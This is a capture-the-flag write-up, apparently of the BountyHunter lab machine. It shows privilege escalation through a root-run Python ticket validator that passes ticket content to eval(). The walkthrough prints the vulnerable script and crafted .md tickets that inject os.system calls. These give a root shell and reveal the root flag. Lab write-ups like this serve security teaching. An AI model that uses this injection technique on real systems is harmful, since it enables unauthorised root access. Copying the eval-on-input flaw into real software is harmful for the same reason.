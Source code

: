 # # `Enumeration` -

```bash
development@bountyhunter:~$ ls
contract.txt  tkt.md  user.txt
development@bountyhunter:~$ cat contract.txt 
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```

It talks about something related to tickets.

Checking for sudo -

```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Checking out the folder -

```bash
development@bountyhunter:~$ cd /opt/skytrain_inc/
development@bountyhunter:/opt/skytrain_inc$ ls
invalid_tickets  ticketValidator.py
development@bountyhunter:/opt/skytrain_inc$ cd invalid_tickets/
development@bountyhunter:/opt/skytrain_inc/invalid_tickets$ ls
390681613.md  529582686.md  600939065.md  734485704.md
development@bountyhunter:/opt/skytrain_inc/invalid_tickets$ cat 390681613.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```
We can see some invalid tickets as said in the contract.Lets check the ticketValidator-
```bash
development@bountyhunter:/opt/skytrain_inc$ cat ticketValidator.py
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

Going through the code we can see the `eval` function which runs input as Python code.We need to take control of the eval function.

To create a Valid Ticket according to the above script  -

- We need to create .md file
- First line needs to starts with “”# Skytrain Inc”
- Second line needs to starts with “## Ticket to “
- Third line needs to starts with “__Ticket Code:__”
- Fourth line needs to starts with  “**”
- After that we need to enter a number which when divided by 7 has a remainder of 4 and we need "+" symbol after that number.
- After that `eval` function will be called which will remove ""**""  from the forth line and check if the number is greater than 100.

# # `Valid ticket` -

So keeping in mind the above points and taking some help from invalid ticket samples our file should like -

```bash
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**25+410+86**
##Issued: 2021/04/06
#End Ticket
```

Just changed 31 to 25(25/7,remainder=4) from the invalid ticket.Lets see if its working -

```bash
development@bountyhunter:/opt/skytrain_inc$ cd /dev/shm
development@bountyhunter:/dev/shm$ nano nap.md
development@bountyhunter:/dev/shm$ cat nap.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**25+410+86**
##Issued: 2021/04/06
#End Ticket
development@bountyhunter:/dev/shm$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
development@bountyhunter:/dev/shm$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/dev/shm/nap.md
Destination: New Haven
Valid ticket.
```

We get a Valid Ticket :)

Now we need to exploit the `eval` function to run some commands -

Payload -

```bash
development@bountyhunter:/dev/shm$ cat nap.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**25+410+86+__import__('os').system('id')**
##Issued: 2021/04/06
#End Ticket
development@bountyhunter:/dev/shm$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/dev/shm/nap.md
Destination: New Haven
uid=0(root) gid=0(root) groups=0(root)
Valid ticket.
```

# # `Root` -

Just change the `id` to `/bin/bash` -

```bash
development@bountyhunter:/dev/shm$ cat nap.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**25+410+86+__import__('os').system('/bin/bash')**
##Issued: 2021/04/06
#End Ticket
development@bountyhunter:/dev/shm$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/dev/shm/nap.md
Destination: New Haven
root@bountyhunter:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhunter:/dev/shm# cd /root/
root@bountyhunter:~# ls
root.txt  snap
root@bountyhunter:~# cat root.txt 
c0e756cd36c9680fc34b44ff959dd14c
```